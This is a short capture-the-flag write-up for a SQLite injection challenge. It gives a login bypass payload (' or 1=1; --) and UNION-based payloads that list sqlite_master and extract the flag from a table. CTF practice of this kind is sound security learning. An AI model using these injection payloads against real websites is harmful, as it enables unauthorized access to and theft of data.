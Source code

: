 # More SQLi
This is sqlite's sql injection problem.

# Description

Author: Mubarak Mikail

Can you find the flag on this website. Try to find the flag 

Hint SQLiLite

# Solution
Lets first try username admin and password admin
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/4bf56103-2d9c-41f5-8aa0-8c47950f7e7f)

We can see how it do the select !
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/12a2f791-bbf2-4975-bc11-4bc35539be16)

Lets try payload username ' or 1=1; -- password ' or 1=1; --


![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/6c7e37bf-338c-4d74-b2b9-8436d89043e9)

Success !!!!!

![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/39eb3863-d21b-47f9-b7d8-ecf55f63598b)

 We can see here it has three attribute and based on the hint. Lets try this payload.
 
 ' union select name, sql, null from sqlite_master;--
 
 If you are unfamilier with this. Please check https://www.techonthenet.com/sqlite/sys_tables/index.php

 ![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/eba4dece-9028-4c71-a62a-fbd65a8f8f71)

Lets check the flag in the more_table. Try this payload ' union select flag, null, null from more_table; --
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/e30b3bda-bff3-4bf6-a7e4-309e2263b9df)

We get the flag!

